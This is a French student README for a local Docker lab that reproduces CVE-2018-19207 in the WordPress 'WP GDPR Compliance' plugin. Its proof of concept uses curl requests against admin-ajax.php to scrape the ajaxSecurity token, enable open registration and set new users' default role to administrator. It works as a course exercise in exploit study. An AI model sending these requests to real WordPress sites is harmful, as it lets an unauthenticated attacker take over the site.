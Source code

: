 # SDSI
Devoir 2 - Faille CVE-2018-19207

## Démarrer les containers
```
docker-compose up
```

## Configuration de wordpress
1. Se connecter au site via `http://localhost:8000/`
2. Créer le compte administrateur
3. Activer le plugin "WP GDPR Compliance" via `http://localhost:8000/wp-admin/plugins.php` puis "Activate"

## PoC (WIP)

1. Se connecter sur le home du site

Requête GET à `http://localhost:8000/` pour obtenir le token `ajaxSecurity` utilisé par le plugin
```
curl -X GET http://localhost:8000/ | grep "ajaxSecurity"
```

2. Autoriser la création de nouveaux utilisateurs

Si on demande à s'enregistrer sur le site via la page `http://localhost:8000/wp-login.php?action=register`, on peut voir le message d'erreur suivant "User registration is currently not allowed."

Requête POST à `http://localhost:8000/wp-admin/admin-ajax.php`
Paramètres: action=wpgdprc_process_action&security=AJAXSECURITYTOKEN&data ={"type": "save_setting", "append": "false", "option": "users_can_register", "value": "1"}

```
curl -H "Content-Type: application/x-www-form-urlencoded" -d "action=wpgdprc_process_action&security=AJAXSECURITYTOKEN&data=%7B%22type%22%3A%22save_setting%22%2C%22append%22%3Afalse%2C%22option%22%3A%22users_can_register%22%2C%22value%22%3A%221%22%7D" -X POST http://localhost:8000/wp-admin/admin-ajax.php
```

En accédant à nouveau à `http://localhost:8000/wp-login.php?action=register`,
on peut remarquer qu'on peut désormais se créer un compte sur le site.

3. Obtenir les droits administateur

Requête POST à `http://localhost:8000/wp-admin/admin-ajax.php`
Paramètres: action=wpgdprc_process_action&security=AJAXSECURITYTOKEN&data ={"type": "save_setting", "append": "false","option": "default_role", "value": "administrator"}

```
curl -H "Content-Type: application/x-www-form-urlencoded" -d "action=wpgdprc_process_action&security=AJAXSECURYTOKEN&data=%7B%22type%22%3A%22save_setting%22%2C%22append%22%3Afalse%2C%22option%22%3A%22default_role%22%2C%22value%22%3A%22administrator%22%7D" -X POST http://localhost:8000/wp-admin/admin-ajax.php
```
Le but de cette requête est de faire en sorte que tous les nouveaux utilisateurs qui s'enregistrent sur le site auront les droits administrateurs par défaut.

4. Créer un compte via `http://localhost:8000/wp-login.php?action=register`, puis se connecter via `http://localhost:8000/wp-login.php` après vérification de l'adresse email.

Pour aller plus vite, vous pouvez vous connecter grâce au compte admin initial. Dans l'onglet "Users", vous pourrez voir le nouveau compte que vous avez créé avec le rôle "Administrator".

Vous pouvez aussi vérifier dans l'onglet "Settings" > "General" les paramètres "Membership" (la case "Anyone can register" devrait être cochée) et "New User Default Role" (à "Administrator").
